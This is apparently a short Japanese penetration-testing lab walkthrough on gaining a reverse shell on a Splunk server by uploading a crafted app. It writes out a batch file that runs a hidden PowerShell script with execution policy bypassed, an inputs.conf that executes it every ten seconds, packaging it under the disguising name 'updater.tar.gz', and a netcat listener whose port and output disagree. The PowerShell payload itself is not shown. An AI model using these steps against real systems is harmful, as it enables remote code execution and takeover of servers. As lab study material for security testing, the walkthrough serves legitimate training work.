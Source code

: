bin/run.batに書くこと
```shell-session
nano bin/run.bat

@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

default/inputs.confの設定例
```sh
nano default/inputs.conf

[script://./bin/run.ps1]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

こうなってればおけ
```sh
cd ../
tree splunk_shell/
splunk_shell/
├── bin
│   ├── run.bat
│   └── run.ps1
└── default
    └── inputs.conf

```

tar.gzでアプリケーションをパッケージ化
```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

Splunk管理画面からアプリをアップロード
- https://10.129.201.50:8000/en-US/manager/search/apps/local
![](https://i.imgur.com/P0EECUd.png)

アップロード前にNetcatで待ち受けを開始する
```shell-session
sudo nc -lnvp 8000

listening on [any] 443 ...
```

アップロードページ
- アップロード後、アプリは**自動で有効化され**、すぐにリバースシェルが返ってくる
- https://10.129.201.50:8000/en-US/manager/appinstall/_upload
